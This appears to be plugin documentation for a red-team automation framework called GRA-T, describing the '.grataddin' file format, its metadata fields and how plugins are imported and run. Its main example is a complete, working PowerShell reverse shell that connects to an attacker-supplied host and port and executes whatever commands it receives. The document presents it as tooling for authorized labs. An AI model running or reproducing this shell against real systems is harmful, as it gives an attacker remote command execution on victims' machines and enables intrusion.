 # 📜 GRA-T Addin (.grataddin) Plugin Documentation

`.grataddin` files are structured plugin scripts for the **GRA-T** framework and **GRA-T Editor**, designed for modular red team automation and post-exploitation workflows.

---

## ⚙️ Structure of a `.grataddin`

A plugin file must contain:

1️⃣ **Structured Metadata Header:**
```plaintext
# plugin.name: ReverseShell
# plugin.description: A PowerShell reverse shell plugin
# plugin.lang: powershell
# plugin.ositworkswith: windows
# plugin.commands: /plugin use ReverseShell LHOST=1.2.3.4 LPORT=4444
# plugin.args: LHOST:str LPORT:int
````

2️⃣ **Logic Body:**

The actual script logic in the specified language (`python`, `powershell`, `batch`, `bash`).

---

## 🛠️ Metadata Fields

| Field                  | Required    | Description                                       |
| ---------------------- | ----------- | ------------------------------------------------- |
| `plugin.name`          | ✅           | Unique plugin identifier                          |
| `plugin.description`   | ✅           | Short description of functionality                |
| `plugin.lang`          | ✅           | `python`, `powershell`, `batch`, or `bash`        |
| `plugin.ositworkswith` | ✅           | `windows` or `linux`                              |
| `plugin.commands`      | ✅           | Example usage in GRA-T                            |
| `plugin.args`          | ✅ if needed | Space-separated arguments with types (`ARG:type`) |

---

## 🖥️ Execution

### Testing Plugins

Plugins can be:

* Tested within **GRA-T Editor**:

  * Prompt for arguments defined in `plugin.args`.
  * Execute inside the IDE terminal using the selected shell.
* Deployed within **GRA-T** using:

  ```
  /plugin import your_plugin.grataddin
  /plugin use PluginName ARG1=val1 ARG2=val2
  ```

---

## 🧩 Example Plugin

**Powershell Reverse Shell Plugin:**

```powershell
# plugin.name: ReverseShell
# plugin.description: A basic PowerShell reverse shell
# plugin.lang: powershell
# plugin.ositworkswith: windows
# plugin.commands: /plugin use ReverseShell LHOST=1.2.3.4 LPORT=4444
# plugin.args: LHOST:str LPORT:int

$client = New-Object System.Net.Sockets.TCPClient($args[0], $args[1])
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

---

## ✅ Best Practices

* **Use clear names and descriptions.**
* **Validate plugins using GRA-T Editor before using in live labs.**
* **Test with known safe environments before operational use.**
* Ensure **CLI argument parsing** is present where needed.
* Keep plugins **modular and minimal** for maintainability.
* Please refrain from :

-> Doing anything that you didn't explicitly say your script will do
-> Trying to exfiltrate data from other peoples labs


---

## 🚩 Reminder

**Only use plugins under explicit authorization in controlled environments.**

---

🐐 **THE GRA-T PIPELINE IS REAL**
